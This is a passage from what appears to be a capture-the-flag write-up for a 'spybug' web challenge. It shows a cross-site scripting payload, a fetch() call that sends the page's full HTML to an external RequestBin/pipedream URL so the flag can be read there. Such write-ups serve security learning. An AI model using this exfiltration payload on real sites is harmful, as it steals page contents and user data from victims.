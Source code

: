 <img src="spybug7.png" alt="Alert 1" width="1000"/>

Spectacular !! Now we only need to modify our payload for it to get all content of the html page at send it to our self hosted server or maybe [RequestBin](https://requestbin.com). The payload I used:

```js
// change the url of the requestbin
fetch('https://ensei2x093jq8.x.pipedream.net?muneh=' + document.documentElement.innerHTML)
```

Repeat all the steps above against challenge server. We will see the flag in the RequestBin we created.

<img src="spybug8.png" alt="Money" width="1000"/>
